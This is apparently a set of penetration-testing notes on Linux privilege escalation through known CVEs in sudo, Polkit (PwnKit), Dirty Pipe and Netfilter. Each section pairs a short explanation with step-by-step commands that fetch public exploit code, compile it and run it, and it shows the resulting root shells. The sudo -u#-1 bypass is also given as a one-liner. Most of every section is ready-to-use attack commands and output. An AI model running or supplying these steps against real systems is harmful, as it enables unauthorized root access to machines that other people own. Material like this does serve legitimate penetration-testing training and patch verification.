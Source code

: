 # 0-Days Exploits

- Sudo
- Polkit
- Dirty Pipe
- Netfilter

## Sudo

The program sudo is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. The /etc/sudoers file specifies which users or groups are allowed to run specific programs and with what privileges.
````
$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
<user>        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
````

**CVE-2021-3156**

One of the latest vulnerabilities for sudo carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:
- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

To find out the version of sudo, the following command is sufficient:
````
$ sudo -V | head -n1
````
````
$ git clone https://github.com/blasty/CVE-2021-3156.git
$ cd CVE-2021-3156
$ make
$ ./sudo-hax-me-a-sandwich
$ cat /etc/lsb-release
$ ./sudo-hax-me-a-sandwich <target>
````

**Sudo Policy Bypass**

Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
- < v1.8.28
- Allow a user in the /etc/sudoers file to execute a specific command
````
$ sudo -l
User <user> may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
````
In fact, Sudo also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the /etc/passwd file.
````
$ cat /etc/passwd | grep <user>
<user>:x:1005:1005:<user>,,,:/home/<user>:/bin/bash
````
If a negative ID (-1) is entered at sudo, this results in processing the ID 0, which only the root has. This, therefore, led to the immediate root shell.
````
$ sudo -u#-1 id
root@nix02:/home/<user># id
uid=0(root)
````

## Polkit

PolicyKit (polkit) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, polkit is asked. It is possible to set how permissions are granted by default for each user and application.

Polkit works with two groups of files.

- actions/policies (/usr/share/polkit-1/actions)
- rules (/usr/share/polkit-1/rules.d)

Polkit also has local authority rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory /etc/polkit-1/localauthority/50-local.d with the file extension .pkla.

- pkexec - runs a program with the rights of another user or with root rights
- pkaction - can be used to display actions
- pkcheck - this can be used to check if a process is authorized for a specific action

In the pkexec tool, the memory corruption vulnerability with the identifier CVE-2021-4034 was found, also known as Pwnkit and also leads to privilege escalation.

````
$ gcc cve-2021-4034-poc.c -o pwnkit_poc
$ ./pwnkit_poc
# id
uid=0(root) gid=0(root) groups=0(root)
````

## Dirty Pipe

A vulnerability in the Linux kernel, named Dirty Pipe (CVE-2022-0847), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the Dirty Cow vulnerability discovered in 2016. All kernels from version 5.8 to 5.17 are affected and vulnerable to this vulnerability.

Vulnerable versions: **5.8 - 5.17**

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the /etc/passwd file and remove the password prompt for the root. This would allow us to log in with the su command without the password prompt.

**Verify Kernel Version**
````
$ uname -r
5.13.0-46-generic
````
**Download Dirty Pipe Exploit**
````
$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
$ cd CVE-2022-0847-DirtyPipe-Exploits
$ bash compile.sh
````
**Exploitation**

DirtyPipe 1
````
$ ./dirtypipe1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
id
uid=0(root) gid=0(root) groups=0(root)

if appears: system() function call seems to have failed :(

$ su root
Password: piped
````
DirtyPipe 2
````
- Find SUID Binaries - 
$ find / -perm -4000 2>/dev/null
$ ./dirtypipe2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root)
````

## Netfilter

Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. Netfilter is also called the software layer in the Linux kernel. When network packets are received and sent, it initiates the execution of other modules such as packet filters. These modules can then intercept and manipulate packets. This includes the programs like iptables and arptables, which serve as action mechanisms of the Netfilter hook system of the IPv4 and IPv6 protocol stack.

This kernel module has three main functions:
- Packet defragmentation
- Connection tracking
- Network address translation (NAT)

(CVE-2021-22555), (CVE-2022-1015), (CVE-2023-32233)

**CVE-2021-22555**

Vulnerable kernel versions: 2.6 - 5.11
````
$ uname -r
5.10.5-051005-generic
````
````
$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
$ gcc -m32 -static exploit.c -o exploit
$ ./exploit
root@ubuntu:/home/<user># id
uid=0(root) gid=0(root) groups=0(root)
````

**CVE-2022-25636**

Vulnerable kernel versions: 
- 5.4 - 5.6.10
- 5.11 - 5.15.26

However, we need to be careful with this exploit as it can corrupt the kernel, and a reboot will be required to reaccess the server.
````
$ git clone https://github.com/Bonfee/CVE-2022-25636.git
$ cd CVE-2022-25636
$ make
$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
````

**CVE-2023-32233**

This vulnerability exploits the so called anonymous sets in nf_tables by using the Use-After-Free vulnerability in the Linux Kernel up to version **6.3.1**. These nf_tables are temporary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (Use-After-Free) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.
````
$ git clone https://github.com/Liuk3r/CVE-2023-32233
$ cd CVE-2023-32233
$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
````
